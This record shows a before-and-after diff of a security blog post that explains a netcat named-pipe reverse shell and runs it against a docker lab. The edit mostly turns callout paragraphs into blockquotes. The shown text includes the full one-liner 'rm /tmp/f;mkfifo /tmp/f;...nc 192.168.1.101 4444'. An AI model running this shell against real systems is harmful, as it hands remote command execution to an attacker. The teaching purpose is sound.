

Before and after one commit to rufflabs/rufflabs.github.io, a Jekyll site: the page built from _posts/2022-05-21-anatomy-of-a-reverse-shell-nc-pipe.md, in a window 1280 px wide and 900 px high, scrolled down 1414 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2022-05-21-anatomy-of-a-reverse-shell-nc-pipe.md
+++ b/_posts/2022-05-21-anatomy-of-a-reverse-shell-nc-pipe.md
@@ -3,6 +3,7 @@ layout: post
 title:  "Anatomy of a Reverse Shell: nc named pipe"
 categories:
 excerpt: "Breaking down the cryptic reverse shell using nc and named pipes. How the reverse shell works, and a hands-on docker lab to test out reverse shells."
+image: "
 ---
 
 In penetration testing and hacking one of the main goals is to obtain a reverse shell on the target/victim system. Sometimes the code and commands to obtain these reverse shells can be very complicated if you aren't familiar with every little peice of the command that is chained together. Today we'll be discussing a netcat named pipe reverse shell, and breaking it down to fully understand how this reverse shell works.
@@ -36,9 +37,9 @@ Once new data shows up, it will read the contents and send those contents down t
 The contents of the `/tmp/f` file from the previous `cat` command are sent to the `/bin/sh` shell. We also supply the `-i` flag to `sh` which means this is an interactive session, and it will execute any commands as they are read in from `/tmp/f`.
 
 Finally the `2>&1` says to redirect the error output into the standard output. By default error text is sent to a seperate error output stream and this is not sent forward to the next command, by redirecting error into standard output error text is then also sent to standard output so it is sent to the next command in the pipe.
-]
-**Why do almost all reverse shells use `/bin/sh` instead of the friendlier `/bin/bash`?**<br>
-Not all systems will have `/bin/bash` installed. However, the `/bin/sh` shell will *always* be avialable on all Unix/Linux operating systems, even embedded and IoT systems!
+
+> **Why do almost all reverse shells use `/bin/sh` instead of the friendlier `/bin/bash`?**<br>
+> Not all systems will have `/bin/bash` installed. However, the `/bin/sh` shell will *always* be avialable on all Unix/Linux operating systems, even embedded and IoT systems!
 
 **| nc IP PORT > /tmp/f**<br />
 Next we take the output of our `sh` command (which is executing commands it sees in the `/tmp/f` file) and use `netcat` to connect to our specified IP and PORT. In addition, any input we receive from the IP (ie: commands being typed in) will be written to the `/tmp/f` file where they will be read by `cat` and piped into `sh` to repeat this process.
@@ -121,5 +122,5 @@ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.101 4444 > /
 
 Paste that command (updating the IP address as needed) into the input box on the site, and submit it. The webpage and browser should hang at this point, which is expected and normal. If we go to our terminal with the netcat listener we should see a shell prompt, and we can enter commands just like we did on the site, but this time instead of a web shell it's a reverse netcat shell!
 
-**Why does the browser hang?**<br>
-When the backend php code runs the reverse shell commands, the process never completes as the reverse shell process keeps repeating. Since this process never completes, the php process continues running and doesn't return any data to the browser. Eventually the php process will timeout and your reverse shell may be disconnected.
+> **Why does the browser hang?**<br>
+> When the backend php code runs the reverse shell commands, the process never completes as the reverse shell process keeps repeating. Since this process never completes, the php process continues running and doesn't return any data to the browser. Eventually the php process will timeout and your reverse shell may be disconnected.
```
